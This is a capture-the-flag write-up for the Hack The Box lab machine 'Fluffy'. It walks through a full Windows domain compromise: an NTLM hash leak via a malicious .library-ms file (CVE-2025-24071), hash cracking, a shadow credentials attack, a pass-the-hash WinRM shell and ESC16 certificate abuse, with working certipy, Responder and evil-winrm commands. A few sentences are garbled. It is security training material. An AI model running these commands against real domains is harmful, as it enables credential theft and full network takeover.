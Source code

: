 # Fluffy

```
Difficulty: Easy
Operating System: Windows
Hints: True
```


**🏁 Summary of Attack Chain**


| Step | User / Access | Technique Used | Result |
| :--- | :--- | :--- | :--- |
| 1 | `j.fleischman` | **SMB Enumeration** | Used `smbmap` to enumerate SMB shares with the initial user credentials. Discovered the `IT` share, which had read and write permissions. |
| 2 | `p.agila` | **CVE-2025-24071 (NTLM Hash Leak)** | Uploaded a malicious `.library-ms` file to the `IT` share. When a user accessed the file, their NTLMv2 hash was leaked and captured using `Responder`. The hash was then cracked with `John the Ripper`, revealing the password `promXXXXXXXXXXX`. This provided access to the user `p.agila`. |
| 3 | `winrm_svc` | **Shadow Credentials** | A Bloodhound analysis showed that `p.agila` had `GenericWrite` permissions on `SERVICE ACCOUNTS` group members like `winrm_svc`. A shadow credential attack was performed on `winrm_svc`, allowing the attacker to get its NT hash and gain a WinRM shell. |
| 4 | `administrator` | **ESC16 Vulnerability** | A vulnerable Certificate Authority was identified. The `userPrincipalName` of the `ca_svc` account was changed to `administrator`, and a certificate was requested for `ca_svc` with the new UPN. This certificate was then used to authenticate as the `administrator` and retrieve the NT hash, which provided root access to the domain controller. |



#### Initial Access & NTLM Hash Leak


The initial foothold began with the provided credentials for the user j.fleischman. A standard Nmap scan of the target machine (Fluffy.htb) revealed several open ports, including SMB (445) and LDAP (389), indicating an Active Directory environment.

To investigate the SMB shares, I used smbmap with the provided credentials:

Bash

```
smbmap -H 10.10.11.69 -u 'j.fleischman' -p 'J0elTHEM4n1990!'
```

![User_Flag](Pictures/htb_fluffy_smb_sharedir.png)

The scan showed that the IT share had READ, WRITE permissions. Upon listing the contents of this share with smbclient, several files were found, including a PDF named Upgrade_Notice.pdf. A vulnerability search related to these files led to CVE-2025-24071, an NTLM hash leak vulnerability involving .library-ms files.

I used a public proof-of-concept (PoC) to create a malicious .library-ms file and an associated ZIP file. The exploit was configured to direct hash requests to my attacking machine. I then uploaded these files to the IT share and started Responder to capture any incoming NTLM hashes.

Bash

**Uploading the malicious files**

```
smbclient //10.10.11.69/IT -U j.fleischman
smb: \> put docs.library-ms
smb: \> put exploit.zip
```

![User_Flag](Pictures/htb_fluffy_smb_expoit_c_and_u.png)

**Running Responder on my machine**

```
responder -I tun0 -wvF
```


Soon after, a user on the network accessed the malicious file, and Responder captured an NTLMv2 hash for the user p.agila. The hash was then cracked using john with the rockyou.txt wordlist, revealing the password: promXXXXXXXXXXX.


# Privilege Escalation to winrm_svc

With the new credentials for p.agila, I used Bloodhound to analyze the Active Directory environment for potential privilege escalation paths.

Bash

```
bloodhound-python -u 'p.agila' -p 'promXXXXXXXXXXX' -d fluffy.htb -ns 10.10.11.69 -c All --zip
```

The analysis showed that p.agila was a member of the SERVICE ACCOUNTS group, which had GenericWrite permissions on several service accounts, including winrm_svc. This is a classic Shadow Credentials attack vector.

![p.agila ](Pictures/htb_fluffy_Service_account.png)

Note that p.agilayou can add yourself to servicethe user group

![permission ](Pictures/htb_fluffy_Service_account_Write_Per.png)

![Added ](Pictures/htb_fluffy_addedotserviceacc.png)

Then the group has write permissions servicefor the userCA_SVC

![ca_svc ](Pictures/htb_fluffy_casvblh.png)

Using certipy, I performed a shadow credential attack on the winrm_svc account to get its NTLM hash.

Bash

```
certipy-ad shadow auto -u 'p.agila@fluffy.htb' -p 'promXXXXXXXXXXX' -account 'WINRM_SVC' -dc-ip '10.10.11.69'
```

![Winrm Hash](Pictures/htb_fluffy_pagola_winrm_hash.png)

This gave me the NTLM hash for winrm_svc, which I then used with evil-winrm to get a shell on the domain controller.

Bash

```
evil-winrm -i 10.10.11.69 -u 'winrm_svc' -H '<winrm_svc_hash>'
```

![User_Flag](Pictures/htb_fluffy_user_flag.png)

This provided access to the user.txt flag.



####Domain Administrator Compromise via ESC16


Further enumeration with certipy revealed a critical vulnerability on the Certificate Authority (CA), specifically ESC16, which allows an attacker to exploit a misconfigured CA to impersonate other users.

Bash

```
certipy find -username ca_svc -hashes :<ca_svc_hash> -dc-ip 10.10.11.69 -vulnerable
```

The exploitation of ESC16 involved a series of steps:

I temporarily changed the userPrincipalName (UPN) of the ca_svc account to administrator.

I requested a certificate for ca_svc using the new administrator UPN.

I reverted the ca_svc account's UPN back to its original value.

Finally, I used the forged certificate to authenticate as the administrator and retrieve the domain administrator's NTLM hash.

Here's the sequence of commands:

Bash

**1. Update UPN of ca_svc to administrator**

```
certipy account -u 'p.agila@fluffy.htb' -p 'promXXXXXXXXXXX' -dc-ip '10.10.11.69' -upn 'administrator' -user 'ca_svc' update
```

![UPN_Update](Pictures/htb_fluffy_ca_svc_admin_perm.png)

**2. Request a certificate as the administrator**

```
certipy req -k -dc-ip '10.10.11.69' -target 'DC01.FLUFFY.HTB' -ca 'fluffy-DC01-CA' -template 'User'
```

![Request_Certificate](Pictures/htb_fluffy_adminpfx.png)

**3. Restore the UPN of ca_svc**

```
certipy account -u 'p.agila@fluffy.htb' -p 'promXXXXXXXXXXX' -dc-ip '10.10.11.69' -upn 'ca_svc@fluffy.htb' -user 'ca_svc' update
```

![ca_svc](Pictures/htb_fluffy_casvcNT.png)

**4. Authenticate and get the administrator hash**

```
certipy auth -dc-ip '10.10.11.69' -pfx 'administrator.pfx' -username 'administrator' -domain 'fluffy.htb'
```

![Admin_hash](Pictures/htb_fluffy_admin_hash.png)

The final command successfully yielded the NTLM hash for the administrator, which can be used for a full domain compromise.

![Root_Flag](Pictures/htb_fluffy_Root.png)



**Pwned! Fluffy**

